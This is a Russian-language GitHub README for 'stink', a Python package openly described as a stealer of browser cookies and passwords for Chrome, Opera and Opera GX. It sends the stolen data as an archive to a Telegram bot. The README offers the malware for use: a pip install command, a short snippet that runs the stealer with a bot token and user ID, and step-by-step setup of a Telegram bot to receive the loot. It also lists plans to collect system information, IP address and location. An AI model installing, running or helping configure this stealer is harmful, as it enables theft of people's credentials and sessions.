


# stink

Стиллер куки и паролей с отправкой в Telegram.

## Описание
`stink` в данный момент только начинает своё развитие. В будущем его функционал будет расширен.

## Навигация
* [Текущие возможности](#Текущие-возможности)
* [Будущие возможности](#Будущие-возможности)
* [Установка](#Установка)
* [Пример использования](#Пример-использования)
  * [Стандартный](#Стандартный)
* [Настройка Telegram бота](#Настройка-Telegram-бота)
  * [Получение токена](#Получение-токена)

### Текущие возможности
1. Сбор куки и паролей следующих браузеров: Chrome, Opera, Opera GX.
2. Отправка собранных данных архивом в Telegram.
3. Выполнение в отдельном потоке.

### Будущие возможности
1. Добавление других браузеров.
2. Сбор информации о системе.
3. Сбор айпи и местоположения.
 
## Установка

Установить последнюю версию можно командой:
```
pip install stink
```

## Пример использования
### Стандартный
```python
from stink.multistealer import Stealer

stealer = Stealer(token="YOUR_TOKEN", user_id=YOUR_ID)
stealer.run()
```

## Настройка Telegram бота
### Получение токена
1. Открываем чат с [BotFather](https://t.me/botfather).
2. Прописываем команду `/newbot`.
<p align="left">
  <a href="">
    
  </a>
</p>
3. Прописываем название бота с прикладкой `_bot` в конце.
<p align="left">
  <a href="">
    
  </a>
</p>
4. Прописываем команду `/token`, затем название бота с прикладкой `@` в начале.
<p align="left">
  <a href="">
    
  </a>
</p>
5. Полученный токен вставляем в поле `"YOUR_TOKEN"` в скрипте.

### Получение айди
1. Открываем чат с [Get My ID](https://t.me/getmyid_bot).
2. Прописываем команду `/start`.
<p align="left">
  <a href="">
    
  </a>
</p>
4. Полученный айди вставляем в поле `YOUR_ID` в скрипте.
